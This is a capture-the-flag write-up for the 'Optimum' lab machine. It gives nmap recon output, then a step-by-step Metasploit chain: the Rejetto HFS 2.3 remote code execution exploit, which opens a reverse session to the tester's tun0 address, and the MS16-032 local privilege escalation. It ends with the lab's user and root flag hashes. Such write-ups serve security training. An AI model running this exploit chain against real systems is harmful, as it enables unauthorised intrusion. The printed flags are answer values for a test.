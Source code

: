 ### IP
`10.10.10.8`

# Recon

### nmap
`nmap -sC -sV 10.10.10.8 -o Optimum.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-23 18:54 EST
Nmap scan report for 10.10.10.8
Host is up (0.051s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.78 seconds


```
* This looks very minimal... just port 80
	* When we look on the website, we can see a link to [HttpFileServer 2.3](http://www.rejetto.com/hfs/), which takes us to Rejetto's website



# Exploitation

### Metasploit

* Because we know that we have a 2.3 rejetto server, let's look for that
1. `msfconsole`
2. `search rejetto`
3. `use exploit/windows/http/rejetto_hfs_exec`
4. `options`
5. `set RHOST 10.10.10.8`
6. `set LHOST tun0`
7. `run`
8. `bg` to put the session into the background
9. `use post/multi/recon/local_exploit_suggester` to view privesc options
10. `set SESSION 1`
11. `set SHOWDESCRIPTION true`
12. `run`
13. `use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`
14. `options`
15. `set SESSION 1`
16. `set LHOST tun0`
17.  `run`

* We're in!

* We can write `more user.txt.txt` to get the user flag: `d0c39409d7b994a9a1389ebf38ef5f73`


* We can cd to `C:\Users\Administrator\Desktop>` and run `more root.txt` to get the root flag: `51ed1b36553c8461f4552c2e92b3eeed`

